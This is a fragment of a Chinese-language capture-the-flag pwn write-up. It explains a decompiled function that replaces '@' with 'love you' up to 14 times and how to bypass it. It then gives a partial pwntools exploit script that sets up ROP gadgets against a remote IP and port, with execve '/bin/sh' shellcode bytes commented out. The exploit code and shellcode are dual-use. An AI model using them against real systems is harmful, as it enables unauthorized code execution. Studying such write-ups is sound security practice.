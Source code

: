 关键在于那个chage函数

```cpp
_BYTE *__fastcall change(__int64 a1, __int64 a2)
{
  int v2; // eax
  int v3; // eax
  _BYTE *result; // rax
  __int64 j; // [rsp+18h] [rbp-18h]
  unsigned __int64 i; // [rsp+20h] [rbp-10h]
  int v7; // [rsp+28h] [rbp-8h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0;
  for ( i = 0LL; i <= 0xEF && v8 <= 239; ++i )
  {
    if ( *(a1 + i) == '@' && v7 <= 13 )
    {
      for ( j = 0LL; aLoveYou[j]; ++j )         // aLove:"love you"
      {
        v2 = v8++;
        *(v2 + a2) = aLoveYou[j];
      }
      ++v7;
    }
    else
    {
      v3 = v8++;
      *(a2 + v3) = *(a1 + i);
    }
  }
  result = (v8 + a2);
  *result = 0;
  return result;
}
```

将你输入的字符串进行一个替换,将"@",也就是0x40替换成love you,怎么样,气不起?辛辛苦苦构造的rop就被破坏了,哈哈哈,

当时给我气笑了,后来发现,他这个只替换了14次,你先输入14个@不就行了(当时没想到,真的太菜了bushi)

exp:

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
# target=Target("27.25.151.80",37819)
# target=process("/root/Pwn/对你爱不完/./endless love")
target=remote("27.25.151.80",37819)
target.sendlineafter("但密码是什么？\n",b'We passed the end, so we chase forever')
target.recvuntil("你可以继续写下去了\n")
libc=ELF("/root/Pwn/对你爱不完/./libc.so.6")
elf=ELF("/root/Pwn/对你爱不完/./endless love")
print(proc.pidof(target))

# pause()
out_put=0x4034a0
puts_plt=0x4010a0
puts_got=elf.got['puts']
pop_rdi=0x000000000040127d
padding=0x88
# shell=b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05a' # 0x18
# pause()
# shell=asm(shellcraft.sh()) # 0x30
```